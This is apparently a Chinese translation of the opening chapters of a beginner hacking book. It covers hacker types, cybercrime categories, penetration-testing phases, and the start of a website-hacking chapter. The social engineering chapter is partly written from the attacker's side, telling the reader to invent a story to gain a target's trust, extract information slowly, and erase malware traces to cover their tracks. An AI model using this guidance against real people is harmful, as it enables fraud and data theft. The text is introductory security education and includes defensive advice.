


# Hacking：三本合一：黑客初学者指南（如何破解网站、智能手机和无线网络） + 黑客 Linux 基础（命令行及所有核心要素） + Kali Linux 黑客实战


通常，当我们谈到黑客行为及其涉及的一切时，我们会认为它是某种邪恶的东西，是我们永远不应该触碰的。在很多情况下，如果我们计划进入一个我们没有权限访问的网络，那么黑客确实是一件坏事。

但我们也可以同样的技术和方法来保护我们自己的网络免受可能带有恶意意图的黑客的侵害，这正是本指南的核心所在。

通过安全且合规的黑客技术，确保你的网络始终按照你意愿的方式运行，并使你的信息（包括个人和财务信息）始终保持安全。

当你准备好开始学习黑客技术以及一些可以帮助你完善自己系统的最佳编程和其他方法时，请务必查阅本指南来帮助你起步。

市上有许多关于这个主题的书，再次感谢你选择这一本！我们尽了努力确保它包含尽可能有用的信息，请尽情享受！

# 第 1 章：了解黑客基础



在本指南中，我们将花费时间关注的内容之一就是“黑客”这个概念。

关于黑客行为，外界有很多负面的观点，因此，学习更多关于这个过程的知识，以及为什么只要使用得当，它实际上对我们是一件好事，是非常重要的。

虽然我们许多人会认为黑客行为是非常负面的，是不应该浪费时间去理会的事情，但你会发现，在将他人隔在外并确保我们的信息尽可能安全方面，黑客技术是实现这一目标的最佳方式之一。

学习一些基础知识会让你的系统变得更强大、更安全。

作为一个初学者，你将学习很多关于黑客技术及其涉及的内容，但你可能不确定从哪里开始。

如果这听起来像是在你，那么本指南将为你提供所需的帮助和信息。

让我们开始查看关于黑客我们需要了解的一些不同内容，以及我们如何将其用于我们自己的需求。

## 什么是黑客？

我们在这里首先来看的是黑客行为到底是什么。

黑客基本上是指识别计算机系统或网络中存在的某些漏洞的过程。

黑客这样做此事的目的是利用某些漏洞来帮助获取访问，特别是当他们想要进入一个他们不应该进入的系统时。

在黑客攻击方面，我们可以使用很多方法，包括使用算法破解密码并从该系统中获取所需的所有权限。

想想你总共看到电脑的次数。你可以在你访问的所有家庭和公司中看到它们，这几乎是帮助你建立你想要的成功业务的必要条件。而且，仅仅拥有一个孤立的计算机系统是不够的。

我们需要确保它们处于网络中，以便与其他企业甚至与我们经常合作的客户进行通信。

但正由于这一切，这些网络将不断暴露在外界环境的影响之下，而黑客攻击将成为出现的大问题。

黑客行为意味着有人将利用这些计算机来实施欺诈行为，如诈骗、侵犯隐私、盗取个人和公司数据等。

对于任何企业来说，这些绝不是什么好事，无论如何。

这实际上每年导致公司损失数百万美元。而且你必须努力恢复声誉，并确保它按照你意愿的方式运行。

最好的办法是采取必要的步骤，确保黑客无法进入你的系统并造成他们想要引起的问题，从而为你自己节省大量资金，并确保没有其他人破坏你的网络。

黑客有许多不同的类型，这是我们许多人不习惯于考虑的。

例如，你会发现有些黑客准备好利用他们所能拿到的任何计算机或网络，而另一些人会使用相同的技术，但他们这样做是为了确保自己的网络尽可能安全。

**黑帽黑客**（Black hat hackers）是那些想要进入他们并不真正属于的网络的人。

他们想要尽可能地制造混乱，并使用户难以真正保持其信息安全。

通常，这些黑客只会花时间尝试获取信息并将其用于自己的个人利益。

这最终会导致个人损失大量资金并丢失其个人信息。

然后是**白帽黑客**（White hat hacker）。

他们可能会使用与我们在黑帽黑客身上看到的类似的方法。

但这些人会花时间接管计算机，确保在黑帽黑客发现漏洞之前找到它们并将其修复。

这将使保持网络安全变得更容易，并在黑帽黑客有机会接管之前将他们击败。

## 需要警惕的网络犯罪类型

黑客花费了相当长的时间研究并寻找在他们想要时进入网络的方法。

正因如此，我们必须非常小心网络安全以及我们将发布到网上的信息。这意味着我们将面临许多窃取我们自己信息的网络犯罪，无论是个人信息还是财务信息。

在黑客攻击中我们看到的最常见的网络犯罪类型包括：

1. **计算机欺诈**（Computer fraud）：
这是指黑客故意欺骗他人以获取对该计算机系统的权限。
2. **身份盗用**（Identity theft）：
这是指黑客从目标处盗取个人信息，然后冒充其身份获取财务利益。
3. **隐私侵犯**（Privacy violations）：
这会暴露个人信息，如电子邮件地址、账户详情和电话号码。这通常出现在我们访问网站和社交媒体时。
4. **共享受版权的信息和文件**（Sharing information and files that are under copyright）：这涉及黑客分发受版权保护且他们不应分享的文件等内容。
5. **电子洗钱**（Electronic money laundering）：
这是指黑客利用计算机进行洗钱并保持隐藏。
6. **电子资金转账**（Electronic funds transfer）：
这是指黑客在没有相应授权的情况下进入银行网络，然后向自己的账户进行非法资金转账。
7. **ATM 欺诈**（ATM Fraud）：
这是指黑客拦截 ATM 卡信息。这可能包括密码（PIN）和账户号码等信息。这些细节将被黑客用于从此类账户中提取资金。
8. **垃圾邮件**（Spam）：
这是指黑客尝试发送完全未经授权的电子邮件。这些通常以电子邮件的形式存在并包含大量广告。
9. **拒绝服务攻击**（Denial of Service Attacks）：
这涉及使用计算机，通常是位于多个地点的许多计算机来攻击他们想要针对的服务器。这种攻击的整体是关闭系统。


如我们上面所示，这里要强调的一点是，黑客希望在没有授权的情况下获得访问权限。

如果你被授予了进入这些网络的权限，那么黑客行为就不被视为攻击或需要担心的事情。

例如，银行的 IT 人员有权进入账户检查漏洞，并确保一切都安全无害，而黑客则没有这种权限。

## 学习黑客的最佳方法

我们可以使用许多步骤来按照我们想要的方式开始学习黑客。

对于对黑客世界了解很少、有时完全没有知识的初学者来说，最好的方法总是从一些基础知识开始。

我们不需要从一些更复杂的部分开始并尝试从一开始就进行黑客（尽管我们以后会学到），而是需要从探索我们想要处理的主题开始，包括计算机网络、防火墙、网络协议等。

你甚至可以花一些时间学习关于现有的不同操作系统，看看哪些操作系统将帮助你更好地实现某些黑客目标。

Linux 是一个非常棒的选择，因为它设计初就是为了帮助各种编码工作，也包括黑客。一旦你掌握了这些基础知识，我们就可以真正进入一些黑客技术，并比以前更好地理解它们的本质。

另一个我们需要关注的重点是找到我们想要学习黑客攻击的资源。

本指南将在你开始学习黑客时提供很多选项，我们还会有本供你使用的参考书。但这些仅仅是你在学习黑客并让事情按照你的意愿运行时所能做事的开始。

如果你在学习黑客的过程中发现某些事情不符合逻辑，或者你想进一步探索我们所处理的某个特定主题，你也有很多选项可以选择。这里要记住的重要点是浏览并挑选出最符合你需求的选项。

你通过黑客技术做得越多，当事情不符合预期时你可以依靠的资源就越多，学习这些主题并让它们为你服务就变得越容易。

虽然这不是强制性要求，但许多人发现学习一点编程是他们提高黑客水平的最佳方式。编程并不是你在这个领域真正想要跳过的东西。

在开始学习时，有很多工具和程序供你选择。但如果你真的想获得一些黑客经验，并想确保这能按照你的意愿进行，那么加入编程也是一个很好的帮助方法。有很多种语言可以用来来实现这一点，你只需要找到最适合你的那一个即可。

然而，如果你不想学习编程语言，或者想尽早开始而不需要学习所有代码，那么你可以很容易跳过这一步，使用已经为你提供的某些选项。

## 学习黑客需要多久？

我们需要花费时间考虑下一个问题是学习黑客相关的基础知识需要多久。

由于黑客技术绝对不是一项一夜之间就能掌握的技能，所以你永远不要为了开始而如此匆忙。它需要知识、技能、创造力、奉献，甚至是大量的时间。

取决于你愿意投入的精力，可能需要几个月，甚至可能需要几年时间才能完成并学习你寻找的所有基础技能。每个人都有成为黑客的潜力，只要他们愿意花时间，并且能够学习一些基础知识来建立自己的基础。

所以，如果你想成为一名黑客，你真正只需要对学习新事物的热情、一些引导你穿过所有基础知识的知识，甚至是一些毅力。从事黑客工作并确保它按照我们的意愿运行有很多好处。但如果我们真的想从长期来看看到成果，我们需要确保自己愿意迈出这些步骤。

当你准备好开始黑客并看看它能实现什么时，请确保继续阅读本指南，用你自己的代码获得最佳结果。

## 第二章：不同类型的黑客


我们接下来需要花时间观察不同类型的黑客。

虽然我们大多数人在提到这个词时会立刻跳到黑帽黑客身上，但实际上世界上有很多不同类型的黑客。他们经常使用相似的技术，但通常，他们执行这些方法和技术的方式以及他们攻击的动机会产生巨大的差异。在学习我们的黑客课程时，你会发现有几种不同类型的黑客我们可以关注。

其中一些是好黑客，他们会利用技能来维护自己的网络和其他网络的安全。另一些人则只想获得个人利益，并会尝试访问他们不该访问的网络。这完全取决于他们最初攻击的动机是什么。

### 脚本小子 (Script Kiddies)

我们将花时间研究的第一类黑客是脚本小子。这些人并不是真的对黑客技术感兴趣。如果他们对学习黑客及其涉及的所有复杂性有真正的兴趣，那么这些人应该是绿帽（Green hats）客了。

对于这些 `Script kiddies`，我们会发现他们花费大量时间复制代码，然后用其制作病毒或其他攻击工具。这些人只会使用预制的选项来实施攻击，他们永远不会为自己正式执行黑客攻击。他们喜欢下载并过度使用在网上购买的软件。

脚本小子攻击的一种常见选项是类似于 `DoS` 或 `DDoS`。这是一个已经制作好的程序，它会向 `IP` 发送大量信息，导致其在压力下崩溃。这种攻击会被许多保持匿名状态的黑客组织使用，这对于任何黑客的声誉都没有帮助。

### 白帽黑客 (White Hat Hackers)

然后，我们可以转向白帽黑客。这些人被称为伦理黑客（ethical hackers）。

在黑客世界中，这些黑客是好人。他们会帮助我们清除病毒，或对公司进行渗透测试，以确保网络安全。大多数被视为白帽黑客的人在 IT 安全或计算机科学方面有一定的背景，例如拥有相关学位，然后通过获得证书来追求这种职业。这确保了他们在过程中会遵守黑客的所有伦理考量。

这里有几个不同的选项可以尝试，但最流行的选项是`认证伦理黑客`或 `CEH`。


接着我们可以转向第三类黑客，这也是大多数人一听到“黑客”一词时首先会想到的那种类型。

这些人就是`黑帽黑客`（black hat hackers）。

他们也被称为`破解者`（crackers），是那些喜欢进入未被允许的系统并窃取信息的人，你会在新闻中听到关于他们。几乎任何人都可能成为这些人的目标。

他们喜欢寻找银行和其他一些拥有大量客户财务和个人信息、但安全性较弱的公司，然后窃取信用卡信息、个人信息和金钱。

他们会使用一些在本指南中我们将讨论的黑客手段，但与其他一些选择相比，他们的动机通常是恶意的。

我们可以观察的另一个选择是`灰帽黑客`（gray hat hacker）。这些人个人介于我们之前讨论的`黑帽`和`白帽黑客`（white hat hacker）之间。这种观点认为世界上没有真的非黑即白，这种观点在黑客世界也有体现。

`灰帽黑客`不会窃取信息或金钱，尽管他们可能会花一些时间破坏几个网站的首页。然而，他们也不会为了好玩而帮助别人，尽管你想这样做也可以。这些黑客构成了黑客世界的大部分，尽管这些黑客获得的关注度没有`黑帽黑客`那么多。

我们还可以处理其他几种颜色的帽子。其中第一种是`绿帽`（green hats）。

这些这些人与我们发现的`脚本小子`（Script Kiddies）类似，但这些人实际上想要学习黑客技术以及与之相关的一切知识，而不是仅仅使用现成的预制代码。他们只是黑客世界的新手，所以对不同的部分了解并不多。

请记住，`绿帽黑客`是黑客世界的新手，但与我们之前提到的那些`脚本小子`不同，这些`绿帽黑客`关注黑客技术，并且实际上是以成为真正的黑客为目标开始的。他们经常会被黑客社区的其他人“喷”，因为他们在学习过程中会问很多基础问题。不过，当有人花时间回答他们的问题时，他们真的非常有兴趣，并带有大量的好奇心和意图。

我们可以观察的另一种颜色的帽子是`红帽黑客`（red hat hacker）。他们更像是黑客世界的 vigil 义士。他们和`白帽黑客`的之处在于，他们会做一些工作来阻止之前的黑帽，并试图将那些不应该属于系统的人挡在外。

但他们会以其他方式这样做，这往往是让他们合作变得如此可怕的原因。`红帽黑客`并不是去寻找并报告恶意黑客，然后仅仅关闭该漏洞让黑客无法再次进入系统，而是亲自动手使用病毒、`DoS`并访问黑客的计算机来从内而外将其摧毁。

他们认为自己有权对付`黑帽黑客`，因为这能让他们能够击败对方，仅仅是因为那个`黑帽`出现在他们的网络上。通常，`红帽`会非常危险，对`黑帽`造成的损害比那个黑帽最初试图在他们网络上造成的还要大。

`红帽黑客`擅长利用许多直接针对`黑帽黑客`的攻击性方法。这些方法严重到至于`破解者`可能完全无法使用他们的计算机，更不用发动其他攻击了。尽管`红帽黑客`在技术上阻止了`黑帽`，但由于报复动机和所使用的方法，这种攻击行为仍然被认为是不符合道德的。

最后，我们将观察`蓝帽黑客`（blue hat hacker）。这些人如果`脚本小子`在进行攻击时决定报复，他们很可能就会变成`蓝帽黑客`。这类黑客会对任何让他们感到愤怒的人寻求报复。这可能是一个失去工作并对此感到愤怒的员工。

尽管与其他一些类型的黑客一样，你会发现`蓝帽黑客`是这个世界里的新手。但他们与`脚本小子`类似，他们真的没有兴趣在这一过程中学习一些编码基础知识。他们只想发动攻击并对他人的网络造成伤害，并乐意使用从其他地方获得的资源来完成任务。

请记住，这些类型的黑客很多都会被视为非法的。如果你尝试在没有网络所有者相应授权的情况下进入网络，你也会遇到麻烦。但如果你是一个`白帽黑客`（white-hat hacker），在你开始执行任何想要完成的黑客行为之前，你已经获得了许可。

# 第 3 章：渗透测试


现在我们对自己的网络以及黑客的本质有了进一步的了解，是时候让我们进行渗透测试了。这些测试通常被称为`渗透测试`（pen test），是对你个人计算机或你试图保护的网络上的计算机进行的模拟网络攻击，以检查某些你可以利用的漏洞。

希望你能够在黑客发现之前找到这些漏洞，帮助你在它们对造成伤害之前真正关闭它们。如果你是为了 Web 应用程序的安全而进行此操作，那么渗透测试将用于增强你现有的防火墙。

在许多情况下，渗透测试涉及我们尝试突破网络中的许多系统应用程序，以确定不同的漏洞在哪里。我们假设在进入时已经存在某些漏洞，我们只是不确定是哪些漏洞以及哪些是我们需要留意的。

我们需要处理这些漏洞的某些不同方案将包括易受代码注入攻击的未过滤输入。这种测试的奇妙之处在于，它能为你提供关于网络的大量见解，了解里面有什么，以及黑客最可能哪里进入系统并引发问题。例如，在完成之后，你可以使用这种测试来微调业务现有的某些安全策略，并帮助修复你可以检测到的漏洞。

## 渗透测试的状态

在有了背景之后，我们需要查看渗透测试时可以处理的一些不同阶段。我们目前将其分为五个阶段，每一阶段对于你穿过网络的工作都至关重要。

我们将采取的五个阶段包括：

1. 规划与侦察

我们需要花时间的第一件事是做一些规划，并弄清楚我们在这个过程中要做什么。所以，开始是定义范围以及你希望在此类测试中实现的一些目标。


例如，你可以写出你想要处理的系统计划，以及我们为了实现这一目标所希望使用的一些测试方法。

同时，我们需要收集一些研究资料，以便对过程中可能发生的情况有充分的准备。这意味着我们可能想要寻找诸如我们正在处理的域名和网络名称、查看邮件服务器等信息。

我们想要在这里收集情报的原因是，这至少让我们对目标将如何运行以及我们可能攻入的某些漏洞有一个初步的了解。

## 2. 扫描 (Scanning)

一旦我们制定了计划，并完成了为了确保测试尽可能成功所需的某些研究，我们将开展的下一个步骤将是扫描过程。

在这个阶段，我们将进行一些工作，并更好地了解目标应用程序在我们尝试进入时将如何对各种入侵尝试做出反响。

我们可以使用几种方法来实现这一切，包括：

### 静态分析

这是黑客检查应用程序代码的阶段，以估计该应用程序在运行时的行为。你会发现，通过正确的工具，我们只需要一次扫描就能遍历整个代码。

### 动态分析

这是我们能够运行应用程序，然后检查该状态下代码。

这是一种更具实践性的扫描方式，因为它能让我们真正看到应用程序的性能，然后我们可以在此基础上工作。

## 3. 获取访问 (Gaining Access)

我们在这里采取的第三个选项是如何获取我们尝试进入的网络或应用程序的访问。

这一步将对 Web 应用程序进行一些攻击以获取我们所需的访问。例如，可以使用后门、`SQL injections`、`cross-site scripting` 等来发现目标的漏洞。

在这一步中，我们将尝试利用所看到的某些漏洞。根据黑客想要执行的操作，这可能包括许多步骤，如权限提升、拦截流量、窃取数据等。

所有这些操作都是因为它们有助于黑客很好地了解他们所造成的破坏，以及该网络的安全性有多强。

如果黑客能够在在此过程中利用其中一个漏洞，这就能允许他们最终获得访问。

## 4. 维持访问 (Maintaining Access)

我们在这一阶段试图实现的目标是，看看我们发现的漏洞是否足以帮助我们在系统中实现持久化存在。

我们希望能够保持这种状态足够长的时间，以帮助我们获得更深层次的访问。

这里的思路是模拟一些更高级的持续性威胁（APT），这些威胁有时会在系统中停留数月或更久，旨在获取该公司最敏感的数据。

你能够在系统上维持访问的时间越长，对黑客就越有利。

这允许他们真正收集他们想要的信息，并让黑客更容易找到他们正在寻找的信息。

这里的关键不仅是进入系统；我们必须确保不会被那些使用该系统的人发现。

## 5. 分析 (The Analysis)

我们将花费时间进行的第五步，也是最后一步是分析。

我们可以借助渗透测试获得的结果来创建一份分析。然后我们可以将它们汇成一份报告，详细说明许多不同的情况。

例如，我们能够遍历并详细说明发现发现的漏洞以及被利用的漏洞。我们可以列出通过漏洞访问的一些敏感数据。然后，我们还可以添加关于渗透测试人员在完全未被发现的情况下留在系统中多长时间的信息。

这些都是通过安全人员分析的重要信息，旨在帮助配置 `WAF` 企业设置和某些应用程序安全解决方案，以修复漏洞防止未来发生此类攻击。

## 渗透测试方法 (Methods of Penetration Tests)

我们还受益于可以使用多种渗透测试方法。

### 外部测试 (External test)

我们可以选择的第一个渗透测试是外部测试。这些测试将有助于针对公司的资产，特别是那些不需要费力就能在网上可见的资产。这包括 Web 应用程序、公司网站、域名服务器和电子邮件等。

我们通过这一方法看到的主要目标是黑客希望获取网络访问并带走所有价值数据。

### 内部测试 (Internal testing)

我们可以使用的第二种渗透测试方法被称为内部测试。通过这种测试，测试人员将获得网络防火墙后的访问权限，然后像恶意内部人员一样模拟攻击。不过，这不等同于模拟一个叛变的员工。这种测试的常见场景是员工的凭据因钓鱼攻击而被盗取。

### 混合测试 (Blend test)

我们列表上的下一个选项是混合测试。在这种测试中，测试人员将尝试在尽可能少信息的情况下攻击网络或企业。黑客仅拥有目标企业的名称。这将让安全人员很好地了解在仅知道公司名称或其他信息的情况下，真实的黑客会如何尝试攻击他们。

### 双盲测试 (Double-blind test)

在这一测试中，双方都从盲态开始。黑客将知道他们要攻击的公司。除了启动此过程的人员，大多数安全人员对这次模拟攻击的发生一无所知。这非常有帮助，因为在现实世界中，我们在攻击发生时并无法预知，因此它可以帮助观察公司的安全性是如何实时运作的。

### 针对测试 (Targeted testing)

最后，我们还可以处理针对测试的情况。在这种情况下，测试人员和安全人员将共同工作，他们会相互交流并告知对方自己采取的行动。这将提供一些宝贵的培训，从黑客的角度为安全团队提供良好的反馈。

## 渗透测试与 Web 应用程序防火墙如何协同工作

我们接下来考虑的是这些渗透测试如何与我们需要的防火墙协同工作。

你会发现 `WAF` 和渗透测试是互斥的，但在涉及到你的网络安全措施时，两者都非常关重要。


对于你想要进行的许多类型的渗透测试，除了盲测和双盲测试外，测试人员都将处理来自 `WAF` 的数据（包括日志），以帮助他们定位并利用应用程序中发现的弱点。

反过来，你会发现 `WAF` 的管理也可以从渗透测试数据中获益。

测试完成后，将更新这些配置，以防御在此类测试中发现的某些漏洞。

最后，我们发现这些渗透测试还可以帮助我们满足许多企业必须处理的一些合规条例。

根据你运营的业务以及为了确保客户及其信息尽可能安全而必须采取，这可能是件好事。

如果你有一些较高的合规要求，定期进行并完成这种渗透测试可能是你实现这一目标的最好方法。

# 第 4 章：如何开展社会工程


通常，网络安全中最薄弱的环节是人。

如果有人被骗交出信息、选择了弱密码，或者采取了其他会让其账户面临风险的行为。

他们同时也会给整个网络造成巨大的损害。

这就是为什么许多黑客会利用社会工程来接触这些人，并让他们做出反应，提供个人信息。

首先，我们需要看看什么是社会工程学。

这个术语被用于一系列通过人与人的互动完成的恶意活动。

它将利用一种被称为“心理操纵”的方法，希望目标犯下安全错误，或泄露敏感且应保持保密的信息。

社会工程攻击至少包含一个步骤，尽管通常情况下，这是一个更深入的过程，并包含更多内容。

黑客首先会花一些时间调查他们想要攻击的目标，然后收集一些必要的背景信息，以便他们进入网络。

例如，这些黑客可能会寻找一些可能进入网络的地点、寻找薄弱的安全协议等。

这些都将由黑客用来最终完成他们的攻击。

然后，攻击者能够移动并以获得目标的信任，提供一些刺激以换取他们想要的行为，并让对方打破他们通常不会违反的安全准则。

最后，黑客会希望这能够成功，目标将泄露一些敏感信息，甚至为他们提供访问正确资源所需的权限。

## 社会工程学的生命周期

社会工程学过程中会有几个步骤，更多地了解这些步骤的工作原理以及我们作为黑客如何利用它们，将决定目标是否会信任我们。

第一步是黑客尝试为他们想要进行的攻击准备一些基础工作。

准备这一切需要几个步骤。

首先，黑客需要确定他们想要针对的目标对象是谁。这将帮助他们日后找出攻击该目标 Best 方式。

然后，当他们获取了目标信息后，将去收集一些所需的背景信息，寻找他们可以利用的漏洞等。

然后是这一步的最后一步，黑客需要选择他们希望针对目标使用的一些攻击方法。

一旦我们有了这些想要采取的基础信息，就是时候在此过程中进行一些欺骗了。

要开始欺骗目标，我们首先需要与他们互动。你可以通过电子邮件或其他手段联系他们，但要确保花些时间编一个故事，并试图让他们信任你。不过，你必须始终控制你与目标之间发生的任何互动，否则事情不会按你意愿的方式发展。

此时，目标将对你产生某种信任。他们相信了你讲述的故事和你分享的所有信息，现在，他们愿意信任你，或许还会完成你希望他们做的任务。

这时我们进入第三步，即随着时间的推移获取我们需要的信息。在大多数情况下，你不希望攻击是夸张且大胆的。否则，目标会察觉到不对劲，并迅速关闭防线。长期、缓慢地进行是完成此任务的最佳方式。

这一步还包括扩大你在目标处拥有的立脚点，并确保在此过程中可以执行攻击。

当所有其他步骤完成后，就是进入该过程的第四步也是最后一步的时候了，至少对于这个目标而言。

这是我们结束互动。如果你能够在没有人察觉你曾在此处且没有引起怀疑的情况下结束整个互动，你就知道你成功了。

有几个步骤必须到位以帮助你完成这些互动。

首先，我们需要确保放置在系统上的所有恶意软件痕迹都被删除，并且确保我们可以掩盖自己的足迹。

然后，是时候让这场戏走向自然结束了。

让这种社会工程真正危险的原因之一是，它更多地依赖人类犯的错误，而不是网络中操作系统或软件中发现的任何问题或漏洞。

合法用户可能会犯损害网络的错误，但我们无法预测所有错误。

这就是为什么黑客非常喜欢它们，但安全人员几乎无法识别并阻止这些问题，因为他们无法预测问题来自哪里。

## 社会工程学技巧

另一个需要考虑的因素是，在社会工程学方面有很多不同的技术可以使用。你会发现这些会以许多不同的形式向我们来，并且可以在任何有人际互动的场所执行。

在社会工程学方面，我们可以使用许多技术，但我们将查看最符合此点的五种常见攻击，它们包括：

1. **诱饵 (Baiting)**
   可以使用的第一种攻击被称为“诱饵”。这是黑客发送一个虚假的承诺，希望激起目标的兴趣、好奇心甚至是贪婪。黑客将试图将用户引入陷阱，从而窃取其个人信息或在计算机上植入恶意软件或其他问题。


在所有诱饵攻击（baiting）形式中，最令人人恨的是看到物理介质被传播此类恶意软件。例如，攻击者会将一些这种“诱饵”（通常是带有恶意软件的优 盘）放置在潜在受害者最可能看到的地方。

这些诱饵看起来会非常真实，因此目标更有可能使用它们。

目标可能会捡起这种诱饵，因为他们出于好奇，然后将其插入家庭或工作电脑中。这会导致恶意软件自动安装在那个系统上。

然而，你会发现这些诱饵诈骗并不局限于物理世界。在线形式的诱饵攻击也存在，它们包括一些诱惑性的广告，将我们引导至恶意网站，这些网站会鼓励作为用户的下载包含大量恶意软件的应用程序。

## 2. 恐吓软件 (Scareware)

另一种选择被称为恐吓软件。

这种方式涉及受害者收到黑客的大量虚假威胁和错误报警。目标会被欺骗和误导，认为他们正在使用的系统感染了某种恶意软件。这会鼓励他们安装某些可以帮助解决问题的软件，但提供的软件根本不会给用户带来任何益处，因为它本身也是恶意软件。

恐吓软件有几个不同的名称，包括欺诈软件（fraudware）、流氓扫描软件（rogue scanner software）和欺骗软件（deception software）等。我们将看到的恐吓软件的一个典型例子是当我们上网时，电脑上出现了一个看起来真实的弹出横幅。

这些横幅会显示类似“您的计算机可能被有害间谍软件感染”的内容。它通常会提议安装所需的工具，尽管那个工具实际上充满了恶意软件；或者它会将你引导至另一个恶意网站，该网站将感染你的电脑及其上的所有内容。

恐吓软件可以通过上述方式传播，但有时，它也会通过垃圾邮件传播，邮件中包含大量虚假警告，或向用户提供提议，希望他们购买有害且毫无价值价值的服务。

## 3. 假托借口 (Pretexting)

在这种方式中，黑客能够通过许多精心设计且非常成功的谎言来获取他们想要的信息。这种诈骗通常由黑客发起，他们假装需要从目标那里获取某些敏感信息，以完成某项重要任务。

黑客通常会在尝试与受害者建立信任时开始这种操作。这是黑客假装成税务官员、银行、警察或目标的同事来实现的，并让自己看起来像是一个权威人物或有权了解该情况的人。

这个“借口”会提出许多该“任务”所需的问题，但通常会索要大量关于受害者及其身份的信息，以便黑客能够获取他们需要的所有重要数据和个人细节。目标会交出信息，因为他们认为他们应该这样做。在这种诈骗的帮助下，各种记录和其他相关信息都会被收集。

如果目标不小心，他们很容易掉入这个陷阱，并可能交出许多重要信息，如电话号码和记录、个人地址、他们及他人的安全号码、员工休假日期、银行记录等。

## 4. 钓鱼攻击 (Phishing)

这可能是黑客针对你的业务所能实施的最广为人知的社会工程攻击之一。这包括一些短信和电子邮件诈骗信息，旨在让受害者产生好奇心、紧迫感或某种恐惧。

然而，如果成功了，这种攻击将诱导目标与黑客分享某些敏感信息、点击将他们引导至恶意网站的链接，或者打开带有恶意软件的附件。

这方面的例子是发送给在线服务用户的电子邮件。这可能会提醒用户他们违反了某项政策，需要立即采取行动以帮助他们留在网络中。它可能包括要求更改密码之类的内容。

其中包含一个链接，看起来是一个合法的网站，尽管它是虚假的。当用户对访问的网站不留留心时，可能会进入那个假网站，输入他们当前的凭据和新密码，然后提交。但当他们这样做时，黑客就会获得所有信息并可以随所欲地使用。

鉴于此类活动会向每个用户发送完全相同或几乎完全相同的消息，你会发现，对于能够访问某些威胁共享平台的邮件服务器来说，检测并拦截这些信息要容易得多。

## 5. 鱼叉式钓鱼 (Spear phishing)

我们将花一点时间查看最后的技术，鱼叉式钓鱼。这与我们上面看到的钓鱼攻击相似，但整体上更具针对性。

在这里，攻击者会选择特定的公司或个人作为目标，而不是随机发送给大群体。这种方法耗时更长，但它允许黑客根据受害者的职位、特征和人际关系定制他们发送的消息，并使他们的攻击整体看起来不那么显眼。

鱼叉式钓鱼之所以厉害，是因为它对执行者要求更多努力，而且根据开始之前所需的信息量，可能需要几周甚至几个月才能完成。这些攻击也更难检测，如果执行得足够技巧，成功率会更高。

我们看到鱼叉式钓鱼的场景是：花费时间冒充企业 IT 顾问的攻击者或黑客向该公司的一名或有时是多名员工发送电子邮件。邮件的措辞和签名方式与该顾问通常工作的方式相同，这有助于欺骗接收信息的人，他们会认为这是一个可以合作的合法邮件。

尽管它看起来来自合法的来源，但我们必须记住，它的目的是欺骗。该信息会提示收件者更改密码。那里通常还会有链接，将用户发送到一个恶意页面，允许黑客从该用户那里获取他们想要的所有凭据。

## 如何防止社会工程学

社会工程师拥有的技能之一是他们真的可以操纵他人的情感。他们可以利用恐惧或好奇等人类天性情感来执行许多计划，并真正将受害者引入他们的陷阱中。因此，当你对电子邮件感到一丝警慌、被网站上显示的优惠吸引，或者当你遇到某些看起来很有诱力但随机丢在周围的数字介质时，时刻保持警惕是一个好主意。


当你对周围发生的事情保持更加警惕时，这将是避免网络遭受社会工程学攻击的一种极佳方法。

虽然这是防止此类攻击的最佳方法，但你也可以尝试其他一些方法，其中包括：

1. 永远不要打开来自未知或可疑来源的邮件和附件。

如果你不确定发送者是谁，你根本不需要回复该邮件。如果是有重要的事情，他们会再次与你联系。

即使你认识对方，也应该小心，并交叉核实他们是否真的给你发了消息，以及该信息是否是你可以信任的，特别是当信息内容看起来有些不对劲时。

2. 考虑使用多因素身份验证。

这这将是黑客在获取你的凭据时能够利用的最价值的信息之一。

使用多因素身份验证有助于确保在账户泄露时其受到保护。如果你需要通过几个或更多步骤才能进入网络，黑客想要访问你系统的难度就会大大增加。

3. 看到一些诱人的报价时要小心。

如果你发现了一个看起来看起来太有吸引力的报价，你需要在将其视为事实之前三思后后。

在谷歌上搜索该主题并进行研究将帮助你弄清自己面对的是陷阱还是合法的报价。

4. 你还应该考虑让电脑上的防病毒和反恶意软件处于强力并保持更新。

你希望自动化任何可以自动化的更新，并养成每天开启电脑时立即下载所有最新特征的习惯。

你还可以定期检查此处是否有其他可以使用的更新，以及为了你的需求进行这些操作是否值得投入精力。

社会工程学之所以如此成功，是因为它让我们有机会真正击败所有已就位的安全措施。

你可以为网络添加尽可能强大的安全防护，但如果你的用户上线并直接向黑客提供信息而不注意他们是否应该信任那个人，那么系统的安全性将面临风险。

黑客有许多方法可以启动此类活动，而且通常通常非常有效。

但他们确实需要对自己的措辞以及实现这一目标的不同方法保持谨慎。

否则，结果将是对方发现不对劲，并且不提供黑客想要的任何信息。

# 第 5 章：如何破解网站


在我们的现代世界中，访问互联网和在线的人比以往任何时候都要多。

这促使许多公司开发基于 Web 的应用程序，这些程序可以帮助用户与不同的网站进行操作，并以新颖且有趣的方式与组织互动。

但如果网站的应用程序代码编写得糟糕，黑客可能会在未经授权的情况下进入并获得权限，从而访问 Web 服务器、敏感数据等。

这就是为什么我们将在本章中花时间研究破解网站的基础知识，并获取我们寻找的信息。

除了查看一些常用的 Web 应用程序攻击技术外，我们还将查看我们可以采取的防御措施，以帮助我们应对这些攻击。

## 查看 Web 应用程序与网络威胁

我们需要查看的是 Web 应用程序，它们基本上就是我们常用的网站。

这是一个基于客户端-服务器模型的应用程序。

服务器将提供数据库访问和业务逻辑，同时托管在 Web 服务器上。

应用程序部分运行在客户端的 浏览器上。

Web 应用程序将使用 [C#](https://www.amazon.com/dp/B084P5VPDQ) 和 Java 等语言编写，而帮助运行它们的数据库可能包括某些版本的 [SQL](https://www.amazon.com/dp/B084M3FSW6)，以帮助保持其强大性并充满我们所需的动力。

